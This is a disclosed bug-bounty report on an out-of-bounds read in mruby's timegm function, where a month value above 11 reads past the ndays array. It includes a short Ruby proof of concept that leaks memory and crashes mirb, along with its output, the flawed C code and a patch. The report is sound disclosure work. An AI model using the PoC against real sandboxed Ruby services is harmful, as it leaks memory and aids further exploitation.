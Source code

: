 # Memory disclosure in timegm

## Report Details
- **Report ID**: 192896
- **URL**: https://hackerone.com/reports/192896
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-20T23:15:59.341Z
- **Disclosed**: 2017-01-31T23:41:39.854Z

## Reporter
- **Username**: volc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
An attacker may disclose memory or/and crash mirb.

# PoC

```ruby
@a = ''
for i in 0..50 do
  t = Time.new(1970, 12 + i + 1).to_i - Time.new(1970, 12 + i).to_i
  @a << t.to_s(16)
  @a << " "
end

@a

Time.new(1970, 0x10000)
```

Output:

```shell
$ ./bin/mruby-engine-mirb < timgm.rb 
mirb - Embeddable Interactive Ruby Shell

> * * * * *  => 0..50
>  => nil
>  => "28de80 28de80 263b80 28de80 278d00 28de80 278d00 28de80 28de80 278d00 28de80 278d00 28de80 49dab380 ee655600 feabe80 98ee00 9facec80 97bc0380 c22e3e00 5b9a3280 c90abe00 4274900 6e4eec80 0 0 0 0 0 85430f00 b883c900 cb470380 defdb180 5c70380 9fa10f00 fca10f00 65153180 2d94ec80 70eca680 23bd5500 a012600 0 0 0 0 17e78500 0 54600 0 c3ae0f80 0 "
>  => nil
> Segmentation fault
```



# Explanation

The vulnerability is located in the `timegm` function (`ext/mruby_engine/mruby-time/src/time.c`). The variable `tm->tm_mon` is controlled by the attacker while it must be lower than 12. An out-of-bound access occurs if `tm->tm_mon` is greater than 11, and the memory after the static array `ndays` is read.

```C
static time_t
timegm(struct tm *tm)
{
  static const unsigned int ndays[2][12] = {
    {31, 28, 31, 30, 31, 30, 31, 31, 30, 31, 30, 31},
    {31, 29, 31, 30, 31, 30, 31, 31, 30, 31, 30, 31}
  };
  time_t r = 0;
  int i;
  unsigned int *nday = (unsigned int*) ndays[is_leapyear(tm->tm_year+1900)];

  for (i = 70; i < tm->tm_year; ++i)
    r += is_leapyear(i+1900) ? 366*24*60*60 : 365*24*60*60;
  for (i = 0; i < tm->tm_mon; ++i)
    r += nday[i] * 24 * 60 * 60;
```



# Impact

An attacker may:

- crash mirb
- read parts of the memory, which can help to build a reliable exploit thanks to an additional vulnerability



# Patch

```diff
diff --git a/ext/mruby_engine/mruby-time/src/time.c b/ext/mruby_engine/mruby-time/src/time.c
index 8884a5d..ce21043 100644
--- a/ext/mruby_engine/mruby-time/src/time.c
+++ b/ext/mruby_engine/mruby-time/src/time.c
@@ -130,7 +130,7 @@ timegm(struct tm *tm)
 
   for (i = 70; i < tm->tm_year; ++i)
     r += is_leapyear(i+1900) ? 366*24*60*60 : 365*24*60*60;
-  for (i = 0; i < tm->tm_mon; ++i)
+  for (i = 0; i < tm->tm_mon && i < 12; ++i)
     r += nday[i] * 24 * 60 * 60;
   r += (tm->tm_mday - 1) * 24 * 60 * 60;
   r += tm->tm_hour * 60 * 60;
```

## Attachments
No attachments
